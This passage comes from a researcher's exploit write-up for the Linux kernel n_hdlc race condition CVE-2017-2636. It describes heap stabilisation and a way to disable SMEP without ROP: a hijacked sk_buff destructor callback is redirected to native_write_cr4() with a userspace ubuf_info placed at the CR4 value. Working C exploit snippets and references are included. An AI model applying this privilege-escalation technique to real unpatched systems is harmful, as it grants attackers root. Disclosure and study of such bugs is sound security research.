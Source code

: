 Now we need to prepare the heap to the next round of `n_hdlc` racing. The `/proc/slabinfo` shows that `kmalloc-8192` slab stores only 4 objects, so double-free error has high chances to crash the allocator. But the following trick helps to avoid that and makes the exploit much more stable -- send a dozen UDP packets to fill the partially emptied slabs.

## SMEP bypass

As I mentioned, the `root_it()` shellcode resides in the userspace. Executing it in the kernelspace is detected by [SMEP][26] (Supervisor Mode Execution Protection). It is an x86 feature, which is enabled by toggling the bit 20 of CR4 register.

There are several approaches to defeat it, for example, Vitaly Nikolenko [describes][27] how to switch off SMEP using stack pivoting ROP technique. It works great, but I didn't want to copy it blindly. So I've created another quite funny way to defeat SMEP without ROP. Please inform me if that approach is already known.

In [`arch/x86/include/asm/special_insns.h`][28] I've found this function:
{% highlight c %}
static inline void native_write_cr4(unsigned long val)
{
	printk("wcr4: 0x%lx\n", val);
	asm volatile("mov %0,%%cr4": : "r" (val), "m" (__force_order));
}
{% endhighlight %}

It writes its first argument to CR4.

Now let's look at `skb_release_data()`, which executes the hijacked `callback` in the Ring 0:

{% highlight c %}
	if (shinfo->tx_flags & SKBTX_DEV_ZEROCOPY) {
		struct ubuf_info *uarg;

		uarg = shinfo->destructor_arg;
		if (uarg->callback)
			uarg->callback(uarg, true);
	}
{% endhighlight %}

We see that the destructor `callback` takes `uarg` address as the first argument. And we control this address in the exploited `sk_buff`.

So I've decided to write the address of `native_write_cr4()` to `ubuf_info.callback` and put `ubuf_info` item at the mmap'ed userspace address `0x406e0`, which is the correct value of CR4 with disabled SMEP.

In that case SMEP is disabled on one CPU core without any ROP. However, now we need to win the race twice: first time to disable SMEP, second time to execute the shellcode. But it's not a problem for this particular exploit since it is fast and reliable.

So let's initialize the payload a bit differently:

{% highlight c %}
	#define CR4_VAL	0x406e0lu

	void *target_addr = (void *)(CR4_VAL & 0xfffff000lu);

	area = mmap(target_addr, 0x1000, PROT_READ | PROT_WRITE,
			MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (area != target_addr) {
		perror("[-] mmap\n");
		return EXIT_FAILURE;
	}

	uinfo_p = (struct ubuf_info *)CR4_VAL;
	uinfo_p->callback = NATIVE_WRITE_CR4;

	info->destructor_arg = (uint64_t)uinfo_p;
	info->tx_flags = SKBTX_DEV_ZEROCOPY;
{% endhighlight %}


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[11.1]: https://youtu.be/nDCvRxWxN0Y
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/
